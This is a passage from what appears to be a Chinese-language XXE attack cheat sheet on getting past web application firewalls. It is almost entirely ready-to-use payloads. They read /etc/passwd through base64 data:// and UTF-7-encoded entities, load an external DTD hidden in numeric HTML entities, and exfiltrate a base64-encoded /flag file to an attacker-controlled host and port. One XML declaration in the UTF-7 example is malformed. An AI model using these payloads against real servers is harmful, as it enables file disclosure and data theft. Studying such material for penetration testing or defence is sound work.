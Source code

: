 ### [WAF & Protections Bypasses](#toc_waf-protections-bypasses)

#### [Base64](#toc_base64)

```bash
<!DOCTYPE test [ <!ENTITY % init SYSTEM "data://text/plain;base64,ZmlsZTovLy9ldGMvcGFzc3dk"> %init; ]><foo/>
```

该 payload 只有当 XML 服务器接受 data://协议是才会生效

#### [**UTF-7**](#toc_utf-7)

```bash
<!DOCTYPE foo [<!ENTITY example SYSTEM "/etc/passwd"> ]>
<stockCheck><productId>&example;</productId><storeId>1</storeId></stockCheck>-
```

当使用 UTF-7 编码时：

```bash
<!xml version="1.0" encoding="UTF-7"?-->
+ADw-+ACE-DOCTYPE+ACA-foo+ACA-+AFs-+ADw-+ACE-ENTITY+ACA-example+ACA-SYSTEM+ACA-+ACI-/etc/passwd+ACI-+AD4-+ACA-+AF0-+AD4-+AAo-+ADw-stockCheck+AD4-+ADw-productId+AD4-+ACY-example+ADs-+ADw-/productId+AD4-+ADw-storeId+AD4-1+ADw-/storeId+AD4-+ADw-/stockCheck+AD4-
```

#### [File:/ Protocol Bypass](#toc_file-protocol-bypass)

如果目标网页使用的是 PHP，可以使用 php 包装器 `php://filter/convert.base64-encode/resource=` 来访问内部文件而不需要再使用 file:/ 协议。

如果是 Java 的网页，可以使用 `jar:protocol`。

#### [HTML 实体](#toc_html)

您可以在用 html 实体编码的实体内创建一个实体，然后调用它来加载 dtd。  
请注意，使用的 HTML 实体需要是数字

```bash
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY % a "&#x3C;&#x21;&#x45;&#x4E;&#x54;&#x49;&#x54;&#x59;&#x25;&#x64;&#x74;&#x64;&#x53;&#x59;&#x53;&#x54;&#x45;&#x4D;&#x22;&#x68;&#x74;&#x74;&#x70;&#x3A;&#x2F;&#x2F;&#x6F;&#x75;&#x72;&#x73;&#x65;&#x72;&#x76;&#x65;&#x72;&#x2E;&#x63;&#x6F;&#x6D;&#x2F;&#x62;&#x79;&#x70;&#x61;&#x73;&#x73;&#x2E;&#x64;&#x74;&#x64;&#x22;&#x3E;" >%a;%dtd;]>
<data>
    <env>&exfil;</env>
</data>
```

DTD 示例：

```bash
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/flag">
<!ENTITY % abt "<!ENTITY exfil SYSTEM 'http://172.17.0.1:7878/bypass.xml?%data;'>">
%abt;
%exfil;
```
